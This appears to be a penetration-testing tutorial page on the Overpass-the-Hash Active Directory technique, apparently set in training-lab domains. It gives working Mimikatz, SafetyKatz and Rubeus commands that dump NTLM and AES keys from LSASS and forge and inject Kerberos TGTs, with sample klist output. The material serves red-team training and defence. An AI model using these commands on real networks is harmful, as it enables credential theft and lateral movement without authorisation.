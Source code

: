 # Overpass-the-Hash

{% hint style="info" %}
## Pass-the-Hash vs Overpass-the-Hash

* [**Pass-the-Hash (PtH)**](pass-the-hash.md) involves reusing NTLM password hashes—typically the NT hash of a user account—to authenticate over NTLM. This technique works with both local and domain accounts but only against services that accept NTLM (e.g., SMB, WMI, WinRM with NTLM fallback).
* **Overpass-the-Hash (OtH)** leverages the NT or AES keys of a domain user to generate valid Kerberos TGTs, which are then injected into the current session (or a new one). This enables access to Kerberos-authenticated services and is preferred in environments that restrict or monitor NTLM. OtH is effectively a Kerberos-based equivalent of PtH, offering broader access in modern enterprise networks.
{% endhint %}

**Overpass-the-Hash (OtH)** enables Kerberos-based lateral movement by forging a valid TGT from a user's NTLM or AES key, avoiding NTLM authentication entirely. Tools like [Mimikatz](../ad-tools/mimikatz.md) generate and inject the TGT into a new process (e.g., `cmd.exe` or PowerShell), allowing access to Kerberos-protected services such as RDP, CIFS, or WinRM.

This technique is typically used after compromising a host where the target user has logged in. With administrative access, the attacker extracts the user’s hash from LSASS, generates a Kerberos ticket, and injects it into memory. **OtH is stealthier than PtH**, evades NTLM restrictions, and leverages native system tooling while operating entirely within the Kerberos trust model.

## Tools

{% hint style="warning" %}
Although the `mimikatz` module is named `sekurlsa::pth`, this is technically an OtH attack—not traditional PtH; this is just a misnomer.
{% endhint %}

{% tabs %}
{% tab title="mimikatz" %}
Execute an OtH attack with [Mimikatz](../ad-tools/mimikatz.md):

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell" "exit"
```
{% endcode %}

There are no cached TGTs yet, as no Kerberos-authenticated service is accessed:

```powershell
> klist
...
Cached Tickets: (0)
```

When a Kerberos-based service is used (e.g. CIFS), a TGT for `krbtgt/CORP.COM` and TGS for `cifs/files04` will be generated:

{% code overflow="wrap" %}
```powershell
> net use \\files04
The command completed successfully.

> klist
...
Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```
{% endcode %}

The NTLM hash has been successfully converted a TGT. The latter can now use any Kerberos-based authentication tool, such as [`PsExec`](../ad-tools/sysinternals.md).
{% endtab %}

{% tab title="SafetyKatz" %}
To perform an OtH attack with [SafetyKatz](../ad-tools/safetykatz.md):

{% code overflow="wrap" %}
```powershell
# Extract ASE256 keys from LSASS
.\SafetyKatz.exe "privilege::debug" "sekurlsa::ekeys" "exit"
```
{% endcode %}

Use the AES256 key (or NT hash) of a domain user to inject a forged TGT and launch a new process (e.g., `cmd.exe`) with Logon Type 9 (`runas /netonly`):

{% hint style="warning" %}
The OtH attack with SafetyKatz needs to be run from an elevated shell!
{% endhint %}

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](../ad-tools/rubeus.md) can be used for OtH attacks **without access to an elevated shell**. The downside is that it overwrites the current tickets:

```powershell
.\Rubeus.exe asktgt /user:administrator /rc4:<ntmlHash> /ptt
```

If a new process need to be started (to avoid overwriting), access to an elevated shell is required:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}
{% endtab %}
{% endtabs %}
